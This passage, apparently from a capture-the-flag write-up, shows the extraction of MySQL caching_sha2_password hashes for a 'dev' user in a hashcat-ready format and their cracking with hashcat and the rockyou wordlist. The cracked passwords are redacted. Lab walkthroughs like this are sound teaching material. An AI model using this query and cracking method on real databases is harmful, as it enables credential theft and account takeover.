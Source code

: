Checking the MySQL users, the `dev` user stands out.

```console
mysql> select user from mysql.user;
+------------------+
| user             |
+------------------+
| clocky_user      |
| dev              |
| clocky_user      |
| debian-sys-maint |
| dev              |
| mysql.infoschema |
| mysql.session    |
| mysql.sys        |
| root             |
+------------------+
9 rows in set (0.00 sec)
```

We see that the `caching_sha2_password` plugin is used for authentication.

```console
mysql> select user,host,plugin from mysql.user where user="dev";
+------+-----------+-----------------------+
| user | host      | plugin                |
+------+-----------+-----------------------+
| dev  | %         | caching_sha2_password |
| dev  | localhost | caching_sha2_password |
+------+-----------+-----------------------+
2 rows in set (0.00 sec)
```

We can use this query to extract the hash in a format `hashcat` can use from the `authentication_string` column.

```console
mysql> SELECT CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM mysql.user WHERE user="dev";
+--------------------------+
| hash                     |
+--------------------------+
| $mysql$A$005*0D17...6142 |
| $mysql$A$005*1C16...462E |
+--------------------------+
2 rows in set (0.00 sec)
```

Using `hashcat` with mode `7401`, we managed to crack the hashes. Both hashes crack to the same password.

```console
$ cat hashes.txt
$mysql$A$005*0D17...6142
$mysql$A$005*1C16...462E

$ hashcat -m 7401 hashes.txt /usr/share/wordlists/rockyou.txt
...
$mysql$A$005*1C16...462E:[REDACTED]
$mysql$A$005*0D17...6142:[REDACTED]
...
```
